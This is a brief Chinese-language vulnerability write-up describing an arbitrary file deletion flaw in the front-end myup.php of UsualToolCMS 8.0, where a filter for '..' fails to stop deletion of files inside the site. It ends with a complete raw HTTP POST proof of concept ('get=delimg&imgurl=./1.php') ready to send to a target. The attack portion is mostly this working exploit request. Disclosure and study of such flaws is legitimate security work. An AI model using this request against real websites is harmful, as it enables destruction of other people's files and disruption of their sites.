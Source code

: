 # UsualToolcms前台任意文件删除

### 一、漏洞简介

前台myup.php文件最后一段存在任意文件删除

### 二、漏洞影响

UsualToolCMS-8.0-Release

### 三、复现过程

漏洞点：`http://url/myup.php`

![](images/15893734554096.png)


第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![](images/15893734620605.png)


![](images/15893734657859.png)



```bash
POST /UsualToolCMS/myup.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

get=delimg&imgurl=./1.php
```